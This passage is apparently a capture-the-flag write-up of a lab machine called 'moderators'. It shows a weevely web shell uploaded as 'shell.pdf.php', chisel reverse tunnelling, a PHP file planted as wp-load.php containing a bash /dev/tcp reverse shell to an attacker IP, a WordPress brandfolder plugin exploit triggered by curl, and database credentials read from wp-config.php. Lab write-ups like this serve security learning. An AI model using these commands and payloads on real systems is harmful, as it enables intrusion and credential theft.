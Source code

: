 Execute weevely:

```consle
zero@pio$ weevely 'http://10.10.11.173/logs/uploads/shell.pdf.php' shell

weevely> whoami
	www-data
www-data@moderators:/var/www/html/logs/uploads $
```

# Privilege Escalation

We found two users in home, **john** and **lexi**. We can see that the port 8080 is open locally, so we can try using `chisel` to get it:

```console
zero@pio$ chisel server --reverse --port 8000
```

And in the target:

```console
www-data@moderators:/var/www/html/logs/uploads $ ./chisel client 10.10.14.10:8000 R:8080:127.0.0.1:8080
```

We found a Wordpress there, vulnerable to this [exploit](https://www.exploit-db.com/exploits/39591).  Start by creating a user folder:

```console
www-data@moderators:~/html/logs/uploads$ mkdir user
www-data@moderators:~/html/logs/uploads/user$ cat wp-load.php 
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'"); ?>
```

Using the plugin call the exploit while openning a netcat:

```console
zero@pio$ sudo netcat -lvnp 443
Listening on 0.0.0.0 443

zero@pio$ curl "http://localhost:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/var/www/html/logs/uploads/user/"
```

Now we are as **lexi** user, we can even get the RSA for a more stable shell. Also, we can change the port forwarding using ssh:

```console
zero@pio$ ssh -L 8080:localhost:8080 -i rsa_lexi lexi@10.10.11.173
```

Searching for creds in the system we found a file. Inspecting it we get:

```console
lexi@moderators:/opt/site.new$ cat wp-config.php

	/** MySQL database username */
	define( 'DB_USER', 'wordpressuser' );
	
	/** MySQL database password */
	define( 'DB_PASSWORD', 'wordpresspassword123!!' );
```
